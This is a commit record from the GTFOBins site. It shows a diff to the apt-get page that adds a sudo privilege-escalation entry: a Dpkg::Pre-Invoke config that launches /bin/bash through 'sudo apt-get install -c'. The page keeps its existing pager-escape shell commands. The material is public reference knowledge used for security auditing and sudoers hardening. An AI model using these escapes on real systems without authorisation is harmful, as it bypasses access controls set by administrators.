

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/apt-get.md, in a window 1280 px wide. Shown: the top 773 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add apt(-get) entries

```diff
--- a/_gtfobins/apt-get.md
+++ b/_gtfobins/apt-get.md
@@ -1,12 +1,17 @@
 ---
-description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
 functions:
   shell:
-    - code: |
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
         apt-get changelog apt
         !/bin/sh
   sudo:
-    - code: |
+    - description: This invokes the default pager, which is likely to be [`less`](/gtfobins/less/), other functions may apply.
+      code: |
         sudo apt-get changelog apt
         !/bin/sh
+    - description: 'Sometimes, only some subcommands of `apt-get` are enabled by sysadmin in the sudoers file. When only `apt-get install *` is allowed, you can use:'
+      code: |
+        echo 'Dpkg::Pre-Invoke {"/bin/bash";};' > test.conf
+        sudo apt-get install -c ./test.conf sl
 ---
```
Also changed, not shown: _gtfobins/apt.md (+8 -3 lines).
